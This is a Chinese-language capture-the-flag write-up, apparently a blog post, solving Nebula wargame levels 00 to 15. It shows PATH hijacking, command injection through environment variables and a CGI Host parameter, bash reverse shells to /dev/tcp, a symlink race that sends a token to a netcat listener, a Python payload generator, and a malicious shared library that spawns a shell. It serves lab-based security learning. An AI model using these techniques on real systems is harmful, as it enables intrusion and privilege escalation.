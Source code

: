 ```yaml
---
layout: post
title: Nebula WriteUp
---
```


##level00:

```
find / -uid 999 2>>/dev/null
flag00@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

##level01:

新建一个叫echo的文件，在文件内写上/bin/sh
`pwd`
将当前的路径加到环境变量PATH中去，

这样`system("/usr/bin/env echo ....") `时，会执行我们指定的命令


##level02:

优雅的将环境变量USER，变成这样：

```
export USER=`python -c "print '&& '+'/bin/sh' + ' ||'"`
```

##level03:
crontab是以flag03用户运行的，所以把命令写到文件里去，等着crontab来执行它，即可
给一个反连的shell
```
bash -c 'bash -i >& /dev/tcp/127.0.0.1/5555 0>&1'
```

##level04:

```
level04@nebula:~$ ln -s  ../flag04/token  abc
level04@nebula:~$ ls
abc

```

06508b5e-8909-4f38-b630-fdb148a848a2

##level05

.backup文件夹内竟然有.ssh的备份，果断download下来

`ssh flag05@192.168.1.115 -i id_rsa `

##level06

传统存储方式，在/etc/passwd里找到加密过的密钥，传统DES加密的，找了半天，原来还是
john the ripper好使
密钥为hello

##level07

```
http://192.168.1.115:7007/index.cgi?Host=||/bin/getflag
```

##level08

wireshark看一下数据包，passwd是这样的：

`backdoor...00Rm8.ate`

.号可能是退格，因此是这样的backd00Rmate

##level09

不会php，没太搞明白

##level10

原来是race condition
`time of check to time of use (TOCTTOU or TOCTOU, pronounced "TOCK too")`

access判断以后，open的时候，这之间有一段时间差

```
#在监听主机上进行监听
while true; do nc -l -p 18211 >> result; done

#循环切换软链接
while true; do ln -fs mytoken token; ln -fs ../flag10/token ; done

#反复跑setuid程序
while true; do ../flag10/flag10 token 192.168.1.116;done

#结果
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
以这个为密码，以flag10为用，登录，然后getflag
```

##level11

我的脚本没搞定，难道是题目真有问题，代码里没有setuid啊。system跑的东西，还是以level11跑的

其实都不用像下面这么麻烦，不用解密出来一样可以，解密第一个字母即可，这样两个分支用这种方法都可行

```python
#!/usr/bin/env python2

head = "Content-Length: "
for key in range(256, 257):
    target="whoami; getflag\x00"
    #target="whoami; gcc -o /tmp/shell /tmp/shell.c; chmod +s /tmp/shell\x00"
    a = ""
    leng = len(target)
    for i in range(leng,0,-1):
        j = i - 1
        key = key + ord(target[j])
        tmp = ord(target[j]) ^ (key & 0xff)
        a = chr(tmp) + a
    print head + str(key) + "\n" + a + "\x00"*(key-len(a))
```

##level12

太多commandline injection了,来一发反弹shell

`
nc -l -p 5555

1 && bash -c 'bash -i >& /dev/tcp/127.0.0.1/5555 0>&1' || echo 1
`

##level13

这么弱的加密，不忍卒视

```python
#!/usr/bin/env python2
input="8mjomjh8wml;bwnh8jwbbnnwi;>;88?o;9ob"

a = ""
for i in range(len(input)):
    a = a + chr(ord(input[i])^ord("Z"))

print a
```

得到b705702b-76a8-42b0-8844-3adabbe5ac58,作为passwd，Done.

##level14

关键加密函数一样很简单：

```c
for ( i = 0; i < (signed int)v9; ++i )
      buff[i] += v7++;
```

解密

```python

#!/usr/bin/env python2

enc = "857:g67?5ABBo:BtDA?tIvLDKL{MQPSRQWW."
leng = len(enc)
a = ""
for i in range(leng):
    a = a + chr(ord(enc[i]) - i)
print a
```

得到：8457c118-887c-4e40-a5a6-33a25353165

##level15
```c
#include <unistd.h>
#include <stdlib.h>

int __libc_start_main
(void) {
    system("/bin/sh");
    return 0;
}
```
gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic hack.c -o mh.so

把libc静态编译到动态共享库中
